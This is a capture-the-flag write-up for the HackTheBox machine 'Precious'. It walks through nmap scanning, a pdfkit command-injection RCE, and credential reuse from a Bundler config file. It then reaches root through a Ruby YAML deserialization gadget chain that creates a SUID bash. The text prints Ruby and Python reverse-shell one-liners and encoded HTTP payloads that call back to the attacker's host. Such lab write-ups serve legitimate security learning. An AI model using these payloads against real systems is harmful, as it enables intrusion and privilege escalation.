


# Precious - HackTheBox - Writeup
Linux, 20 Base Points, Easy



## Machine


 
## TL;DR

To solve this machine, we start by using `nmap` to enumerate open services and find ports `22`, and `80`.

***User 1***: By executing the `exiftool` command on the generated PDF file, we were able to extract information about the PDF generation. It was determined that the PDF was generated using `pdfkit v0.8.6`, which is known to contain a Remote Code Execution (RCE) exploit. Leveraging this RCE exploit, we successfully obtained a reverse shell with the execution context of the ruby programming language. This reverse shell provides us with an interactive session that allows us to execute commands and interact with the system from the perspective of the `ruby` user.

***User 2***: During our investigation, we discovered the credentials of the user `henry` within the file `/.home/ruby/.bundle/config`.

***Root***: After executing the command `sudo -l`, we discovered that we have the ability to run `/opt/update_dependencies.rb` as the `root` user. Upon reviewing the code of this script, we identified that it utilizes YAML, which is susceptible to deserialization attacks. Leveraging this vulnerability, we crafted a payload to exploit the deserialization vulnerability and obtain the `/bin/bash` file with the Set User ID (SUID) permission. By achieving this, we gain the capability to execute `/bin/bash` with elevated privileges, allowing us to perform actions as the `root` user.


## Precious Solution

### User 1

Let's begin by using `nmap` to scan the target machine:

```console
┌─[evyatar9@parrot]─[/hackthebox/Precious]
└──╼ $ nmap -sV -sC -oA nmap/Precious 10.10.11.189
Starting Nmap 7.92 ( https://nmap.org ) at 2022-12-03 22:12 IST
Nmap scan report for 10.10.11.189
Host is up (0.080s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 84:5e:13:a8:e3:1e:20:66:1d:23:55:50:f6:30:47:d2 (RSA)
|   256 a2:ef:7b:96:65:ce:41:61:c4:67:ee:4e:96:c7:c8:92 (ECDSA)
|_  256 33:05:3d:cd:7a:b7:98:45:82:39:e7:ae:3c:91:a6:58 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to http://precious.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

Observing port `80`, we see that the following web page is hosted:


The website has the capability to convert an HTML file to PDF. To proceed with the conversion, we need to create an HTTP server:
```console
┌─[evyatar9@parrot]─[/hackthebox/Precious]
└──╼ $ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Once the HTTP server is set up, we can proceed with the web-to-PDF conversion by providing the URL of the HTML file to the website:


Upon examining the PDF file using `exiftool`, we have identified the following details:
```console
┌─[evyatar9@parrot]─[/hackthebox/Precious]
└──╼ $ exiftool lhkiump8pt3relieo9a6kcarm6bn6tmg.pdf 
ExifTool Version Number         : 12.16
File Name                       : lhkiump8pt3relieo9a6kcarm6bn6tmg.pdf
Directory                       : .
File Size                       : 9.4 KiB
File Modification Date/Time     : 2022:12:03 23:25:37+02:00
File Access Date/Time           : 2022:12:03 23:25:41+02:00
File Inode Change Date/Time     : 2022:12:03 23:25:37+02:00
File Permissions                : rwxrwx---
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Creator                         : Generated by pdfkit v0.8.6
```

We can see its generate using ```pdfkit v0.8.6```, This version of ```pdfkit``` contains  Command Injection vulnrability, We can use the following URL to get RCE ```http://10.10.14.14:8000/?name=%20`whoami` ```:
By analyzing the PDF file using `exiftool`, it has been determined that the PDF was generated using `pdfkit v0.8.6`. This specific version of `pdfkit` is known to have a Command Injection vulnerability. Taking advantage of this vulnerability, we can utilize the provided URL ```http://10.10.14.14:8000/?name=%20`whoami` ``` to achieve Remote Code Execution (RCE) on the target system:
```console
┌─[evyatar9@parrot]─[/hackthebox/Precious]
└──╼ $ python3 -m http.server 
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.11.189 - - [03/Dec/2022 23:25:02] "GET / HTTP/1.1" 200 -
10.10.11.189 - - [03/Dec/2022 23:28:32] "GET /?name=%20ruby HTTP/1.1" 200 -
```

Upon successful exploitation, it is evident that we have obtained the username `ruby`, thereby confirming the presence of Remote Code Execution (RCE).

Since we know it's a Ruby web application, we can utilize the following reverse shell:
```ruby
ruby -rsocket -e'exit if fork;c=TCPSocket.new("10.10.14.14","4242");loop{c.gets.chomp!;(exit! if $_=="exit");($_=~/cd (.+)/i?(Dir.chdir($1)):(IO.popen($_,?r){|io|c.print io.read}))rescue c.puts "failed: #{$_}"}'
```

Alternatively, we can also employ a Python reverse shell:
```python
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

We can transmit it by utilizing the following HTTP request with a Ruby payload:
```HTTP
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://precious.htb/
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://precious.htb
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2F10.10.14.14%3A8000%2F%3Fname%3D%2520%60ruby+-rsocket+-e'exit+if+fork%3bc%3dTCPSocket.new("10.10.14.14","4242")%3bloop{c.gets.chomp!%3b(exit!+if+$_%3d%3d"exit")%3b($_%3d~/cd+(.%2b)/i%3f(Dir.chdir($1))%3a(IO.popen($_,%3fr){|io|c.print+io.read}))rescue+c.puts+"failed%3a+%23{$_}"}'%60
```

Alternatively, we can utilize the following HTTP request with a `Python 3` payload:
```HTTP
POST / HTTP/1.1
Host: precious.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://precious.htb/
Content-Type: application/x-www-form-urlencoded
Content-Length: 84
Origin: http://precious.htb
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

url=http%3A%2F%2F10.10.14.14%3A8000%2F%3Fname%3D%2520%60python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.14",4242))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("sh")'%60
```

By executing the mentioned approach, we can successfully obtain a reverse shell:
```console
┌─[evyatar9@parrot]─[/hackthebox/Precious]
└──╼ $ nc -lvp 4242
listening on [any] 4242 ...
connect to [10.10.14.14] from precious.htb [10.10.11.189] 53306
$ whoami
whoami
ruby
```

### User 2

By conducting a host enumeration, we have discovered the following directory:
```console
$ pwd   
pwd
/home/ruby/.bundle
$ ls -ltra
ls -ltra
total 12
-r-xr-xr-x 1 root ruby   62 Sep 26 05:04 config
dr-xr-xr-x 2 root ruby 4096 Oct 26 08:28 .
drwxr-xr-x 4 ruby ruby 4096 Dec  3 15:17 ..
```

The Bundle module enables interaction with Bundler's configuration system. The file config contains relevant information:
```console
cat config
---
BUNDLE_HTTPS://RUBYGEMS__ORG/: "henry:Q3c1AqGHtoI0aXAYFH"
```

Let's utilize the obtained credentials to establish an SSH connection:
```console
┌─[evyatar9@parrot]─[/hackthebox/Precious]
└──╼ $ ssh henry@precious.htb 
The authenticity of host 'precious.htb (10.10.11.189)' can't be established.
ECDSA key fingerprint is SHA256:kRywGtzD4AwSK3m1ALIMjgI7W2SqImzsG5qPcTSavFU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'precious.htb,10.10.11.189' (ECDSA) to the list of known hosts.
henry@precious.htb's password: 
Linux precious 5.10.0-19-amd64 #1 SMP Debian 5.10.149-2 (2022-10-21) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
henry@precious:~$ cat user.txt
6369c5b4702ef49d48b0b0aeebab3fbf
```

And we get the user flag ```6369c5b4702ef49d48b0b0aeebab3fbf```.

### Root

Upon executing `sudo -l`, the following information is revealed:
```console
henry@precious:~$ sudo -l
Matching Defaults entries for henry on precious:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User henry may run the following commands on precious:
    (root) NOPASSWD: /usr/bin/ruby /opt/update_dependencies.rb
```

Let's examine the code of the `/opt/update_dependencies.rb` file:
```ruby
henry@precious:~$ cat /opt/update_dependencies.rb
# Compare installed dependencies with those specified in "dependencies.yml"
require "yaml"
require 'rubygems'

# TODO: update versions automatically
def update_gems()
end

def list_from_file
    YAML.load(File.read("dependencies.yml"))
end

def list_local_gems
    Gem::Specification.sort_by{ |g| [g.name.downcase, g.version] }.map{|g| [g.name, g.version.to_s]}
end

gems_file = list_from_file
gems_local = list_local_gems

gems_file.each do |file_name, file_version|
    gems_local.each do |local_name, local_version|
        if(file_name == local_name)
            if(file_version != local_version)
                puts "Installed version differs from the one specified in file: " + local_name
            else
                puts "Installed version is equals to the one specified in file: " + local_name
            end
        end
    end
end
```

The script reads the configuration from the `dependencies.yml` file.

We can get RCE via YAML Deserialization,  In 2019, Etienne Stalmans did a nice writeup of converting [Luke Jahnke's original gadget chain to YAML format](https://staaldraad.github.io/post/2019-03-02-universal-rce-ruby-yaml-load/). In that case, manual tweaking of the YAML was required. ([Reference](https://bishopfox.com/blog/ruby-vulnerabilities-exploits)).


Based on the provided reference, we can construct the following yaml file to achieve Remote Code Execution (RCE):
```yaml
henry@precious:~$ cat dependencies.yml 
:payload:
- !ruby/class 'Gem::SpecFetcher'
- !ruby/class 'Gem::Installer'
- !ruby/object:Gem::Requirement
  requirements: !ruby/object:Gem::Package::TarReader
    io: !ruby/object:Net::BufferedIO
      io: !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: aaa
      debug_output: !ruby/object:Net::WriteAdapter
        socket: !ruby/object:Gem::RequestSet
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module 'Kernel'
            method_id: :system
          git_set: whoami >> /home/henry/w
        method_id: :resolve
```

Run it as `root`:
```console
henry@precious:~$ sudo /usr/bin/ruby /opt/update_dependencies.rb
sh: 1: reading: not found
Traceback (most recent call last):
	41: from /opt/update_dependencies.rb:17:in `<main>'
	40: from /opt/update_dependencies.rb:10:in `list_from_file'
	39: from /usr/lib/ruby/2.7.0/psych.rb:279:in `load'
	38: from /usr/lib/ruby/2.7.0/psych/nodes/node.rb:50:in `to_ruby'
	37: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	36: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	35: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	34: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:313:in `visit_Psych_Nodes_Document'
	33: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	32: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	31: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	30: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:162:in `visit_Psych_Nodes_Mapping'
	29: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:338:in `revive_hash'
	28: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:338:in `each_slice'
	27: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:338:in `each'
	26: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:340:in `block in revive_hash'
	25: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	24: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	23: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	22: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:141:in `visit_Psych_Nodes_Sequence'
	21: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `register_empty'
	20: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `each'
	19: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:332:in `block in register_empty'
	18: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:32:in `accept'
	17: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:6:in `accept'
	16: from /usr/lib/ruby/2.7.0/psych/visitors/visitor.rb:16:in `visit'
	15: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:208:in `visit_Psych_Nodes_Mapping'
	14: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:394:in `revive'
	13: from /usr/lib/ruby/2.7.0/psych/visitors/to_ruby.rb:402:in `init_with'
	12: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:218:in `init_with'
	11: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:214:in `yaml_initialize'
	10: from /usr/lib/ruby/vendor_ruby/rubygems/requirement.rb:299:in `fix_syck_default_key_in_requirements'
	 9: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_reader.rb:59:in `each'
	 8: from /usr/lib/ruby/vendor_ruby/rubygems/package/tar_header.rb:101:in `from'
	 7: from /usr/lib/ruby/2.7.0/net/protocol.rb:152:in `read'
	 6: from /usr/lib/ruby/2.7.0/net/protocol.rb:319:in `LOG'
	 5: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 4: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
	 3: from /usr/lib/ruby/vendor_ruby/rubygems/request_set.rb:388:in `resolve'
	 2: from /usr/lib/ruby/2.7.0/net/protocol.rb:464:in `<<'
	 1: from /usr/lib/ruby/2.7.0/net/protocol.rb:458:in `write'
/usr/lib/ruby/2.7.0/net/protocol.rb:458:in `system': no implicit conversion of nil into String (TypeError)
```

Check if its work:
```console
henry@precious:~$ ls -ltr
total 12
-rw-r----- 1 root  henry  33 Dec  3 15:10 user.txt
-rw-r--r-- 1 henry henry 576 Dec  3 17:19 dependencies.yml
-rw-r--r-- 1 root  root    5 Dec  3 17:19 w
henry@precious:~$ cat w
root
```

And we have RCE as `root`.


Let's set the SUID (Set User ID) for `/bin/sh` using the provided YAML configuration:
```yaml
:payload:
- !ruby/class 'Gem::SpecFetcher'
- !ruby/class 'Gem::Installer'
- !ruby/object:Gem::Requirement
  requirements: !ruby/object:Gem::Package::TarReader
    io: !ruby/object:Net::BufferedIO
      io: !ruby/object:Gem::Package::TarReader::Entry
        read: 0
        header: aaa
      debug_output: !ruby/object:Net::WriteAdapter
        socket: !ruby/object:Gem::RequestSet
          sets: !ruby/object:Net::WriteAdapter
            socket: !ruby/module 'Kernel'
            method_id: :system
          git_set: cp /bin/bash /home/henry/mysh && chmod +s /home/henry/mysh
        method_id: :resolve
```

Now, we have successfully set the SUID (Set User ID) for `/bin/sh`, resulting in SUID-enabled bash:
```console
henry@precious:~$ ls -ltr
total 1220
-rw-r----- 1 root  henry      33 Dec  3 15:10 user.txt
-rw-r--r-- 1 henry henry     608 Dec  3 17:28 dependencies.yml
-rwsr-sr-x 1 root  root  1234376 Dec  3 17:28 mysh

```

Run it (with `-p` flag to turn on privileged mode):
```console
henry@precious:~$ ./mysh -p
mysh-5.1# whoami
root
mysh-5.1# cat /root/root.txt
bfd008c0858359ac694b384574ffc73e
```

And we get the ```root``` flag ```bfd008c0858359ac694b384574ffc73e```.
